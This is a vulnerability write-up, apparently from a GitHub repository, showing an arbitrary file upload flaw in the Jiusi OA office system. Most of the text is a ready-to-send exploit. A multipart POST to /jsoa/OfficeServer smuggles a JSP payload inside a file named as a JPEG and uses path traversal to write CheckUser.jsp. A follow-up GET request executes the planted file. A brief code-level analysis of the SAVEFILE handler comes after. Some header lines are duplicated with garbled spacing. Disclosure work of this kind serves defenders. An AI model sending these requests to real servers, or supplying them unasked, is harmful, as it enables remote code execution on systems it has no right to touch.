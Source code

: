 # Jiusi OA has an arbitrary file upload vulnerability

##### Vulnerability reproduction:

```
POST /jsoa/OfficeServer?isAjaxDownloadTemplate=false HTTP/1.1

Host:

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Length: 1692

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Disposition: form-data; name="FileData"; filename="1.jpg"

Content-Type: image/jpeg

<% out.println("loc");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Disposition: form-data; name="test"

{"OPTION":"SAVEFILE","isDoc":"false","moduleType":"govdocument","RECORDID":"../../CheckUser","FILETYPE":".jsp"}
{"OPTION":"SAVEFILE","isDoc":"false","moduleType":"govdocument","RECORDID":".. /.. /CheckUser","FILETYPE":".jsp"}

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1--
```

![1760594938912](images/jiousi/1760594938912.png)

Access the uploaded file

```

GET /jsoa/CheckUser.jsp HTTP/1.1

Host:

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7

Accept-Encoding: gzip, deflate
```

![1760595100481](images/jiousi/1760595100481.png)

Successfully uploaded and accessed

##### White Box Vulnerability Analysis:

In the servlet of the Office Server, there is a SAVEFILE, and the save2DB method is called in the SAVEFILE option

![1760595160239](images/jiousi/1760595160239.png)

When isDoc is equal to fasle, the faveFile method of the Jinger component is called to write the file, and the filetype is controllable, causing arbitrary file upload vulnerabilities

![1760595183727](images/jiousi/1760595183727.png)
